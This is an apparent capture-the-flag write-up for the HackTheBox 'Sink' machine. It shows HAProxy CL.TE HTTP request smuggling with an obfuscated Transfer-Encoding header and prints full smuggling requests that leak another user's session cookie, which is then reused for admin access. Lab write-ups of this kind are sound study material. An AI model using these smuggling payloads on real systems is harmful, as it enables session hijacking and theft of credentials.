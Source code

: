 

SMUGGLING
<br>
https://chr0x6eos.github.io/2021/09/18/htb-Sink.html
<br>
https://0xdf.gitlab.io/2021/09/18/htb-sink.html
<br
<br>

Looking at the response, we can notice something quite interesting: Via: haproxy. Let us research what haproxy is and if there are any vulnerabilities.

HAProxy research
After some searching I eventually tried to look for exploits on GitHub using this Google-query. This gives us a GitHub page that showcases a HTTP-Request smuggling vulnerability in HAProxy using CL.TE (Content-Length & Transfer-Encoding). Normally, the HAProxy will prioritize the Transfer-Encoding, stripping the Content-Length and therefore removing our smuggled request. By obfuscating the TE-header, the proxy will use the CL to determine the length of the request, forwarding our smuggled request. The backend however, will use the Transfer-Encoding and therefore interpret our smuggled request.

Example (Taken from the GitHub Post):

Normal request
Request to HAProxy:

POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding: chunked

0

X
Request forwarded to backend:

POST / HTTP/1.1
Host: 127.0.0.1:1080
Transfer-Encoding: chunked
X-Forwarded-For: 172.21.0.1

0
The X is stripped!

Obfuscated TE
Request to HAProxy:

POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:[\x0b]chunked

0

X
Request forwarded to backend:

POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:
                  chunked
X-Forwarded-For: 172.21.0.1

0

X
The X gets forwarded!

Exploiting CL.TE HTTP request smuggling
Let us use the knowledge we just learned and try to exploit this vulnerability. Let us try to smuggle our request to create two notes.

For this we have to create follow request:

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 252
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4
Transfer-Encoding:[\x0b]chunked

6
note=t
0

POST /notes HTTP/1.1
Host: localhost:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 500
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4

note=
Obfuscating TE-Header
We now need to obfuscate the TE-Header. Luckily, we can easily do this using Burp:

Obfuscating TE

We can now send the request and check how many notes were created.

Notes created

We successfully smuggled the request and created two notes! Let us check each note out!

Note 1

Hmm this note is empty… Let us see if the other note holds any information…

Note 2

We see a parts of a request in the second note!

Leaking HTTP-request
As only the smuggled request results into an interesting request, let us try to make the first request a comment and the second request a note. This way, we only create one note and this note will container the leaked request. Furthermore, let us increase the Content-Length of the second post to get more parts of the request. Let us increase it from 100 to 250 (same length as the first request).

POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 250
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4
Transfer-Encoding:[\x0b]chunked

4
msg=
0

POST /notes HTTP/1.1
Host: localhost:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 250
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4

note=
Note 3

We can see now parts of a session-cookie that differs from ours. However, the request is still not complete! Let us increase the Content-Length once again!

POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 250
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4
Transfer-Encoding:[\x0b]chunked

4
msg=
0

POST /notes HTTP/1.1
Host: localhost:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4

note=
Note 4

We finally get the full request! The session-cookie could be the cookie of the administrator! Let us replace our cookie with the leaked one.

Admin session on port 5000
Replacing our cookie and reloading /notes, we get following page shown:
